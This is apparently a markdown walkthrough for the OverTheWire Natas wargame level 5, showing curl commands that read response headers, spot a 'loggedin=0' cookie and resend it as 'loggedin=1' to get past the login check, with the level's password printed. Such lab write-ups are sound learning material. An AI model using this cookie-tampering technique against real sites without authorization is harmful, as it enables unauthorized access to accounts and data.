




# 🕸️Natas Level 5 → Level 6

```
http://natas5.natas.labs.overthewire.org
```
Username: natas5  
Password: (natas5_password)

According to the hint, you are currently not logged in.



We then view the source code of the page, and there’s nothing there.



### 🌀Useful curl command


```
curl -I -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK \
http://natas5.natas.labs.overthewire.org/
```
``-u user:pass`` — Supplies Basic Auth credentials.  
``-I`` — short for ``--head``. Ask the server for the headers only (an HTTP HEAD request). You’ll get the HTTP status line and response headers (e.g. HTTP/1.1 200 OK, Content-Type, Server, Set-Cookie, etc.), but not the full response body.  
``URL`` — The target server/page.

We observe that `loggedin=0`, which catches our attention.



```
curl -b "loggedin=1" \
-u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK \
http://natas5.natas.labs.overthewire.org/
```
or
```
curl --cookie "loggedin=1" \
-u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK \
http://natas5.natas.labs.overthewire.org/
```
``--cookie "loggedin=1"`` — This manually sets a cookie for the request.  
``-u user:pass`` — Supplies Basic Auth credentials.  
``URL`` — The target server/page.  



Perfect! This flag lets you log in to the next stage.
